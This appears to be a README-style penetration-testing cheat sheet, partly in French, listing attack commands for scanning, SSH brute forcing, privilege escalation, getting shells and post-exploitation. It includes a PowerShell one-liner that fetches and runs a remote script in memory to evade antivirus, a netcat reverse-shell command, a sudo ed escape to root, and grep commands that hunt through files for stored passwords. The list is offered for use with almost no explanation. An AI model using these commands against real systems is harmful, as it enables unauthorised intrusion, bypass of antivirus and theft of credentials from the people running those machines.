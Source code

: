 # tools
few scripts and useful commands

# scan
<ul>
<li>netdiscover -r 192.168.10.130/24</li>
<li>nmap -A -sS 192.168.10.135</li>
<li>nikto -h http://192.168.10.135/site</li>
<li>wapiti http://192.168.10.134/site</li>
<li>wordpress : wpscan --url http://192.168.10.135/site</li>
</ul>

# windows
<p>run ps1 script in memory (bypass antivirus) :</p>
<ul>
<li>powershell IEX (New-Object Net.WebClient).DownloadString('http://10.133.127.172:85/test.ps1')</li>
</ul>

# bruteforce
<ul>
<li>hydra -l user -P wordlist.txt 192.168.10.130 ssh</li>
</ul>
<p>generate wordlist from a password with 2 missing characters :</p>
<ul>
<li>crunch 7 7 -t passwo^% >> wordlist.txt</li>
</ul>

# privesc

<ul>
<li>find / -perm -u=s -type f 2>/dev/null</li>
<li>find / -perm +6000 2> /dev/null</li>
<li>https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/</li>
<li> Get a better shell if msf payload is weak (ex: python/reverse_shell) : http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet </li>
<li> List rights : sudo -l </li>
<li> Example with /bin/ed : sudo /bin/ed => !/bin/bash => id </li>
</ul>

# shell

<p>LFI</p>
<ul>
<li>/bin/nc 192.168.91.1 1234 -e /bin/sh /bin</li>
</ul>

# post-exploitation
<ul>
<li> grep -air --include=*.txt ou .json ou .sh password ou mot de passe </li>
<li> grep -air --include=*.txt "mot de passe" </li>
<li> grep -air --include=*pass* ""</li>
<li>https://matthew-brett.github.io/curious-git/reading_git_objects.html</li>
</ul>
